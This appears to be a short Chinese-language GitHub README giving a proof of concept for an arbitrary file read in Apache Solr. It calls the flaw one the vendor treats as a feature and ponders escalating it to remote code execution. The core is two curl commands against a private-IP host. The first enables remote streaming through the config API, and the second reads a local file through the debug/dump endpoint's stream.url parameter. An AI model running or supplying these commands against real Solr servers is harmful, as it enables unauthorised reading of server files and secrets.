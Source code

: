 # Solr-file_read



一个官方觉得是feature而不修复的漏洞

如何read to RCE 值得思考



POC:

```
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://192.168.33.130:8983/solr/db/config -H 'Content-type:application/json' 

curl "[http://192.168.33.130:8983/solr/db/debug/dump?para...](http://192.168.33.130:8983/solr/db/debug/dump?param=ContentStreams) -F "stream.url=file:///C:/a.txt" 
```



![image-20210318001430696](https://gitee.com/svenbeast/NotePicture/raw/master/img/2021/03/18/85647_image-20210318001430696.png)